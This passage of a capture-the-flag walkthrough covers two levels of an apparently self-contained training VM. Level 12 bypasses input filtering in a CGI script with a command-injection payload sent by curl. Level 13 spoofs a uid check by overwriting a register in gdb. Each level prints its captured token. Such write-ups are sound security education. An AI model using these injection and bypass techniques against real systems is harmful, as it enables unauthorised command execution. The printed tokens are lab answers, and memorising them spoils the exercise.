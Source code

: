 _Token: feulo4b72j7edeahuete3no7c_
- - - -

## Level 12 (CGI command injection)
By examining the script, we notice that the url-parameter `x` is vulnerable to a command injection. However, this time an attempt is made to secure user input by preprocessing it. Any command passed as the parameter would be deleted. We need a work-around. 

Instead of passing commands directly, we could pass the a regex describing a script containing them. 

```sh
> echo "getflag > /tmp/passed.txt" > /tmp/000
> chmod 777 /tmp/000
> curl 'localhost:4646?x="`/*/000`"'
> cat /tmp/passed.txt
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

_Token: g1qKMiRpXf53AWhDaU7FEkczr_
- - - -

## Level 13 (overwriting registers)
```sh
> strings level13
UID %d started us but we we expect %d
your token is %s
level13_back.c
> ./level13 
UID 2013 started us but we we expect 4242
```

We need to spoof having a `uid` of 4242. The way to do it is by modifying register values as the program is running. Luckily for us, the virtual machine has `gdb` preinstalled. 

```sh
(gdb) disas main
0x08048595 <+9>:	call   0x8048380 <getuid@plt>
0x0804859a <+14>:	cmp    $0x1092,%eax
0x0804859f <+19>:	je     0x80485cb <main+63>
(gdb) break *0x0804859a
(gdb) run
(gdb) info registers
eax            0x7dd	2013 # 2013 is my current uid
(gdb) set $eax = 0x1092 # 0x1092 is 4242 in decimal
(gdb) cont
Continuing.
your token is 2A31L79asukciNyi8uppkEuSx
[Inferior 1 (process 3657) exited with code 050]
```

_Token: 2A31L79asukciNyi8uppkEuSx_
- - - -
